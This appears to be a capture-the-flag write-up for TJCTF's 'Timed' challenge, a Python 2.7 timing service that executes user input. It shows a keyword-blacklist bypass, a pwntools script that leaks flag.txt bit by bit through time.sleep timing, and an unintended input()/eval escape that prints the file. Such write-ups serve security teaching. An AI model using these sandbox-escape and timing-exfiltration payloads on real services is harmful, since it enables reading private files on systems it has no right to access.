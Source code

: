 # Timed
>Written by avz92

>I found this cool program that times how long Python commands take to run! Unfortunately, the owner seems very paranoid, so there's not really much that you can test. The flag is located in the file flag.txt on the server.
```bash
nc p1.tjctf.org 8005
```

Try connect it with netcat:
```py
nc p1.tjctf.org 8005
Type a command to time it!
print('hi')
Runtime: 1.00135803223e-05
```

It seems only output the **execute time** of our Python command

Lets try invalid command:
```py
Type a command to time it!
hi
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    hi
NameError: global name 'hi' is not defined
Runtime: 0
```

An error occurred! Ok lets try more:
```py
Type a command to time it!
import os
Hey, no hacking!
Type a command to time it!
open('flag.txt').read()
Hey, no hacking!
Type a command to time it!
()            
Hey, no hacking!
Type a command to time it!
eval("hi")
Hey, no hacking!
Type a command to time it!
open('flag.txt','r').read(100)
Runtime: 3.19480895996e-05
Type a command to time it!
Traceback (most recent call last):
  File "/timed.py", line 31, in <module>
    t=timeit.Timer(res)
  File "/usr/lib/python2.7/timeit.py", line 143, in __init__
    code = compile(src, dummy_src_name, "exec")
  File "<timeit-src>", line 7
    _t1 = _timer()
      ^
``` 
It just run `exec` on our input based on the error above

It black listed `import` , `eval` and `()` but single bracket can bypass it!

## Intended Solution

As the challenge title, we need to leak the flag using timing attack

We can use `time.sleep()` function, because `time` already imported in the source code:
```
Type a command to time it!
time.sleep(1)
Runtime: 1.00111889839
```
Then based on the Runtime to determine our flag

The most fastest way is to convert the flag in binary and put if its `1` then sleep for some seconds

Written a python payload:
```python
# Loop all flag in binary form
# zfill(7) because ASCII value is at most length 7 in binary
if bin(ord(open('flag.txt','r').read(100)[index]))[2:].zfill(7)[binary_index]=='1':
	# If is 1 then sleep for 0.2 seconds
	time.sleep(0.2)
```

Lets test it!
```
Type a command to time it!
if bin(ord(open('flag.txt','r').read(100)[0]))[2:].zfill(7)[0]=='1':time.sleep(1)         
Runtime: 1.00115013123

```
Looks like the payload is working!

Written [full python script](solve.py) for leaking the full flag:
```py
from pwn import *

p = remote("p1.tjctf.org",8005)
flag = 'tjctf{'
index = 6
while(1):
	temp = ''
	for i in range(7):
		p.sendlineafter("!\n","if bin(ord(open('flag.txt','r').read(100)[{}]))[2:].zfill(7)[{}]=='1':time.sleep(0.2)".format(index,i))
		p.recvuntil("Runtime: ")
		time = p.recvuntil("\n")[:-1]
		if float(time) > 0.2:
			temp += '1'
		else:
			temp += '0'
	index += 1
	flag += chr(int(temp,2))
	print flag
```
Result:
```
[+] Opening connection to p1.tjctf.org on port 8005: Done
tjctf{i
tjctf{iT
tjctf{iTs
tjctf{iTs_
...
tjctf{iTs_T1m3_f0r_a_flaggg
tjctf{iTs_T1m3_f0r_a_flaggg}
```

## Unintended solution

According to the error, it is Python 2.7

In Python 2.7, if we use `input()` function the input will become real syntax (same as eval)

So I tried `input("")`:
```py
Type a command to time it!
input("cmd:")
eval()     
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    input("cmd:")
  File "<string>", line 1, in <module>
TypeError: eval expected at least 1 arguments, got 0
Runtime: 0
```
Looks like we can ran eval! We bypass the blacklist

Then we can execute `eval(content of flag)` then it will show the flag for us because got syntax error

```py
Type a command to time it!
input("")
eval(open('flag.txt','r').read())
Traceback (most recent call last):

  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    input("")
  File "<string>", line 1, in <module>
  File "<string>", line 1
    tjctf{iTs_T1m3_f0r_a_flaggg}
         ^
SyntaxError: invalid syntax
Runtime: 0
```
## Flag
```
tjctf{iTs_T1m3_f0r_a_flaggg}
```